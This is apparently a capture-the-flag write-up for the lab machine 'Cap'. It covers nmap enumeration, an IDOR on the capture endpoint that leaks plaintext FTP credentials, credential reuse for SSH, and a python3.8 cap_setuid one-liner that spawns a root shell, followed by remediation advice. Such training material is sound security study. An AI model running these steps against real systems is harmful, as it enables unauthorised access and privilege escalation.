



| Property       | Value                    |
| -------------- | ------------------------ |
| **OS**         | Linux                    |
| **Difficulty** | Easy                     |
| **Release**    | 2021-06-05               |
| **State**      | Retired                  |
| **IP**         | 10.129.55.200            |
| **Techniques** | IDOR, linux capabilities |
| **Tags**       | #web #privesc #linux     |

---
## Summary

Cap is an easy Linux machine running a Gunicorn-based security dashboard that performs network captures. Improper access controls on the capture storage endpoint result in an Insecure Direct Object Reference (IDOR), exposing a packet capture belonging to another user. The capture contains plaintext FTP credentials for the user `nathan`. Credential reuse grants SSH access to the machine. Privilege escalation is achieved by abusing the `cap_setuid` capability set on `python3.8`, which allows to the process UID to 0 and spawn a root shell.

---
## Enumeration

```
echo '10.129.55.200 cap.htb' | sudo tee -a /etc/hosts
```

Added the IP address of the machine to the `/etc/hosts` file.

### Nmap Scan

```
sudo nmap -sV -sC cap.htb
Starting Nmap 7.95 ( https://nmap.org ) at 2026-05-03 15:39 EDT
Nmap scan report for cap.htb (10.129.55.200)
Host is up (0.031s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 11.04 seconds

sudo nmap -p- cap.htb
Starting Nmap 7.95 ( https://nmap.org ) at 2026-05-03 15:40 EDT
Nmap scan report for cap.htb (10.129.55.200)
Host is up (0.031s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 29.90 seconds
```

### Service Enumeration

The FTP server does not allow anonymous login.

```
ftp -a cap.htb
Connected to cap.htb.
220 (vsFTPd 3.0.3)
331 Please specify the password.
530 Login incorrect.
ftp: Login failed
```

The web application on port 80 is already authenticated as `nathan`.



The Security Snapshot functionality runs a 5-second packet capture and stores the resulting `.pcap` file under the `/data` endpoint.



---
## Foothold

### IDOR

The `/data` endpoint uses a sequential integer as the object identifier with no access control check, allowing any user to retrieve captures belonging to other users by editing the ID in the URL.

### Exploitation

Navigating to `/data/0` retrieves a capture that was not generated by the current session. 



Opening it in Wireshark discloses plaintext FTP credentials.


Credentials recovered: `nathan:Buck3tH4TF0RM3!`

---
## User Flag

The user flag is accessible via FTP.

```
ftp nathan@cap.htb
Connected to cap.htb.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||48506|)
150 Here comes the directory listing.
-r--------    1 1001     1001           33 May 03 19:30 user.txt
226 Directory send OK.
ftp> more user.txt
af6*********************c45
```

The same credentials are also valid for SSH.

```
ssh nathan@cap.htb
# password: Buck3tH4TF0RM3!

nathan@cap:~$ file user.txt
user.txt: ASCII text
```

---
## Privilege Escalation

### Enumeration

```
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

`python3.8` has the `cap_setuid` capability set, which allows a process to arbitrarily change its UID. This can be abused to set the UID to 0 and spawn a root shell without requiring `sudo`.

### Exploitation

```shell
nathan@cap:~$ python3 -c "import os; os.setuid(0); os.system('/bin/bash')"
root@cap:~# file /root/root.txt
/root/root.txt: ASCII text
```

---
## Remediation

- **IDOR:** Enforce access control checks server-side for every object users attempt to access. Validate that the requesting user owns the resource before serving it.
- **Plaintext credentials in captures:** Enforce encrypted protocols (SFTP, FTPS) to prevent credential exposure in network captures.
- **Credential reuse:** Use distinct credentials for each service.
- **cap_setuid on python3.8:** Regularly audit file capabilities and remove elevated permissions from binaries that do not require them.

---
## References

- [OWASP - IDOR Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Insecure_Direct_Object_Reference_Prevention_Cheat_Sheet.html)
- [GTFOBins - cap_setuid](https://gtfobins.github.io/gtfobins/python/)